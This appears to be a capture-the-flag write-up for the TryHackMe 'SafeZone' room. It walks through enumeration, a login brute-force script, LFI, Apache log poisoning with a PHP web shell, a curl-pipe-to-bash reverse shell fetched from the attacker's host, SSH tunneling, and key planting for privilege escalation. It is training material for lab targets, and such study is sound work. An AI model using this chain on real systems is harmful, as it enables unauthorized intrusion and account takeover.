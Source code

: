 # 76 - SafeZone (LFI Log Poisoning, SSH Tunneling)

Room Link --> [https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.90.206

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.90.206 -w /usr/share/dirb/wordlists/common.txt -x txt,php,sh,cgi,html,zip,bak,sql -b 404,403

/dashboard.php
/detail.php
/index.php
/index.html
/note.txt
/logout.php
/news.php
/register.php
```
{% endcode %}

Navigating to `index.php` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying default credentials like admin, password, etc but it seems there is rate limiting.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking `/note.txt` .

{% code overflow="wrap" %}
```
Message from admin :-

I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a new account in `/register.php` .

<figure><img src=".gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/news.php`&#x20;

<figure><img src=".gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

`/detail.php`&#x20;

```
<!-- try to use "page" as GET parameter-->
```

<figure><img src=".gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a GET parameter to use, and remember the `/note.php` text we found too.

So i checked walkthrough, the most reasonable one i saw admitted to using this wordlist:

```
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Which had the new directory in it.

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://safezone.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php

/~files
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a hint for admin password.

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "

```

In here I got the definitive username and the password. But there had to be two numbers in between. Because that was the only hint, I had to try all the different numeric combinations. But I still had in mind, that I only had three login attempts. So I set up the numeric combinations with Python and saved it to a file.

```bash
for i in {0..99}; do echo $i; done > numbers.txt
```

I manually edited the one digit numbers at the beginning to fit the scheme (from 0 to 00 and 1 to 01). With that prepared I ran it with wfuzz sleeping for 21 seconds per requests.

#### POST Login request bruteforce using wfuzz

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,numbers.txt -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://safezone.thm/index.php -s 21
```
{% endcode %}

But i wrote my own bash script to automate this  well.

```bash
#!/bin/bash

url="http://safezone.thm/index.php"

for i in $(seq 10 99); do
    echo "[-]trying $i"
    response=$(curl -s -X POST -d "username=admin&password=admin${i}admin&submit=Submit" "$url")
    if ! echo "$response" | grep -qE "To many failed login attempts. Please login after 60 sec | Please enter valid login details"; then
        echo "[+]Correct password found: $i"
        break
    fi
    sleep 21
done
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We got our correct password then.

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Going to the `/detail.php` dir, then using the "page" parameter we get LFI.

[http://10.10.148.163/detail.php?page=/etc/passwd](http://10.10.148.163/detail.php?page=/etc/passwd)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

So i used SecsList to Bruteforce for other sensitive files i can read, and i was able to read the `access.log` file, so we can do Log Poisoning attack.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```php
<?php system($_GET['cmd']); ?>
```

So we intercept the request to read the apache log file and inject this to the User-agent field:

<figure><img src=".gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

So its working.

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Got a bash oneliner from payloadallthethings, save it in a shell.sh file setup NC, host it using `python3 -m http.server` then execute it using:

[http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash)

And i got shell.

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to files user

Looked around Files home dir, and there is a `.something#fake_can@be^here` file containing password hash for Files user.

{% code overflow="wrap" %}
```bash
www-data@safezone:/home/files$ cat '.something#fake_can@be^here'
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
{% endcode %}

Cracked it using john

`magic`&#x20;

Login via ssh and it worked.

### Priv Esc to Yash user

`sudo -l`&#x20;

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

I looked around the server for a while. When I looked for opened ports locally I found a second web application on port 8000.

`ss -tulnp` .

### Port Tunneling

Using SSH Tunneling to open the remote port on my kali

`ssh -L 8000:localhost:8000 files@safezone.thm -fN` .

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://localhost:8000 -w /usr/share/dirb/wordlists/common.txt -x php,txt -b 404,403

/pentest.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Most of the cmds were blocked.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

SO whatever cmd we are entering in the terminal is been executed on the machine as `yash` user.

What i did was create a `.ssh` folder in `/home/yash/` then add my kali ssh public key into the authorized\_keys file and ssh into yash account and it worked.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

Now as the user “yash” I got another output for the `sudo -l` command.

I tested the full command by simply executing it.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Done!

